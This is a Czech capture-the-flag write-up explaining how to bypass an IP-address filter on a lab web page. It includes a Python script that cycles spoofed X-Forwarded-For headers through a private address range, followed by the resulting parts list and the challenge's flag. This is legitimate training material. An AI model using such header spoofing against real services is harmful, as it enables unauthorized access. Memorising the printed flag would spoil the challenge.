

# Component replacement

## Zadání

```
Ahoy, officer,

the ship had to lower its speed because of broken fuel efficiency enhancer. To order a correct spare part, the chief engineer needs to know exact identification code of the spare part. However, he cannot access the web page listing all the key components in use. Maybe the problem has to do with recently readdressing of the computers in the engine room - the old address plan for whole ship was based on range 192.168.96.0/20. Your task is to find out the identification code of the broken component.

May you have fair winds and following seas!

The webpage with spare parts listing is available at http://key-parts-list.cns-jv.tcc.

Hint: Try to bypass the IP address filter.
```

## Řešení

Stránka po připojení vrací:

```
You are attempting to access from the IP address 10.200.0.4, which is not assigned to engine room. Access denied.
```

Úloha připomíná [The Geography](/2021-The-Catch/data_extraction/the_geography), kde ale použití HTTP hlavičky `X-Forwarded-For` nebylo zamýšlené řešení. Zkusíme tedy nastavit `X-Forwarded-For` pro daný rozsah IP adres a najít vlajku:



```python
import requests
from ipaddress import ip_network

URL = 'http://key-parts-list.cns-jv.tcc'

def main():
    for ip in ip_network('192.168.96.0/20'):
        headers = {
            'X-Forwarded-For': str(ip)
        }
        
        response = requests.get(URL, headers=headers)
        
        if 'FLAG' in response.text:
            print(response.text)
            exit(0)

    print("FLAG not found.")

if __name__ == '__main__':
    main()
```

```
Spare part;Identification code;In duty
Bubler;PART{SNIg-NYW1-0eSq-vMqO};8
Camshaft;PART{BAym-Fxee-llBO-wRSz};4
Connecting rod;PART{k76T-boGS-Z2s9-BrGa};22
Continuity converter;PART{63Ph-aHXa-MOOf-yzam};4
Crankshaft;PART{ScTp-kzE4-fNed-F9AZ};4
Cylinder head;PART{sHL3-l6pw-sQuw-XVcq};96
Flywheel;PART{Fg4G-UcHw-BKaz-8ozB};12
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel lines;PART{NJu2-Dy2b-001D-dEyn};112
Fuel pump;PART{ymm0-I0FQ-jZ6t-FIZq};8
Rotation accelerator;PART{ZJSD-AdYM-yh3e-pOa0};4
Turbocharger;PART{iHqc-3Od4-1Yuq-jtX0};12
Piston;PART{Bxlj-Ud2U-zNfm-3XGQ};96
Plasma rectifier;PART{pxZ5-QJUJ-dzkr-I5Yt};1
Plunger pump;PART{3C1U-ghSo-euI0-wLi0};4
Self-locking fuel tank;PART{wLyo-Odc9-38IP-zfmT};12
Valve;PART{erre-BopV-7Lrw-xepu};64
```

### Vlajka

```
FLAG{MN9o-V8Py-mSZV-JkRz}
```
